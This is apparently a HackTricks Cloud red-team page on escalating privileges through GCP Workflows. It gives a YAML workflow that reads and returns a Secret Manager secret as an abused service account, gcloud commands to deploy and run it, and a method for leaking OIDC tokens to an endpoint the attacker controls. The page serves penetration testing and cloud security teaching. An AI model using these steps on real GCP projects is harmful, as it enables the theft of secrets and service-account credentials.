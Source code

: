 # GCP - Workflows Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Workflows

Basic Information:

{% content-ref url="../gcp-services/gcp-workflows-enum.md" %}
[gcp-workflows-enum.md](../gcp-services/gcp-workflows-enum.md)
{% endcontent-ref %}

### `workflows.workflows.create`, `iam.serviceAccounts.ActAs`, `workflows.executions.create`, (`workflows.workflows.get`, `workflows.operations.get`)

Afaik it's not possible to get a shell with access to the metadata endpoint containing the SA credentials of the SA attacked to a Workflow. However, it's possible to abuse the permissions of the SA by adding the actions to perform inside the Workflow.

It's possible to find the documentation of the connectors. For example, this is the [**page of the Secretmanager connector**](https://cloud.google.com/workflows/docs/reference/googleapis/secretmanager/Overview)**.** In the side bar it's possible to find several other connectors.

And here you can find an example of a connector that prints a secret:

```yaml
main:
    params: [input]
    steps:
    - access_string_secret:
        call: googleapis.secretmanager.v1.projects.secrets.versions.accessString
        args:
            secret_id: secret_name
            version: 1
            project_id: project-id
        result: str_secret
    - returnOutput:
            return: '${str_secret}'
```

Update from the CLI:

```bash
gcloud workflows deploy <workflow-name> \
    --service-account=email@SA \
    --source=/path/to/config.yaml \
    --location us-central1
```

If you don't have web access it's possible to trigger and see the execution of a Workflow with:

{% code overflow="wrap" %}
```bash
# Run execution with output
gcloud workflows run <workflow-name> --location us-central1

# Run execution without output
gcloud workflows execute <workflow-name> --location us-central1

# List executions
gcloud workflows executions list <workflow-name>

# Get execution info and output
gcloud workflows executions describe projects/<proj-number>/locations/<location>/workflows/<workflow-name>/executions/<execution-id>
```
{% endcode %}

{% hint style="danger" %}
You can also check the output of previous executions to look for sensitive information
{% endhint %}

Note that even if you get an error like `PERMISSION_DENIED: Permission 'workflows.operations.get' denied on...` because you don't have that permission, the workflow has been generated.

### Leak OIDC token (and OAuth?)

According [**to the docs**](https://cloud.google.com/workflows/docs/authenticate-from-workflow) it's possible to use workflow steps that will send an HTTP request with the OAuth or OIDC token. However, just like in the case of [Cloud Scheduler](gcp-cloudscheduler-privesc.md), the HTTP request with the Oauth token must be to the host `.googleapis.com`.

{% hint style="danger" %}
Therefore, it's **possible to leak the OIDC token by indicating a HTTP endpoint** controlled by the user but to leak the **OAuth** token you would **need a bypass** for that protection. However, you are still able to **contact any GCP api to perform actions on behalf the SA** using either connectors or HTTP requests with the OAuth token.
{% endhint %}

#### Oauth

{% code overflow="wrap" %}
```yaml
    - step_A:
      call: http.post
      args:
          url: https://compute.googleapis.com/compute/v1/projects/myproject1234/zones/us-central1-b/instances/myvm001/stop
          auth:
              type: OAuth2
              scopes: OAUTH_SCOPE
```
{% endcode %}

#### OIDC

```yaml
    - step_A:
      call: http.get
      args:
          url: https://us-central1-project.cloudfunctions.net/functionA
          query:
              firstNumber: 4
              secondNumber: 6
              operation: sum
          auth:
              type: OIDC
              audience: OIDC_AUDIENCE
```

### `workflows.workflows.update` ...

With this permission instead of `workflows.workflows.create` it's possible to update an already existing workflow and perform the same attacks.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
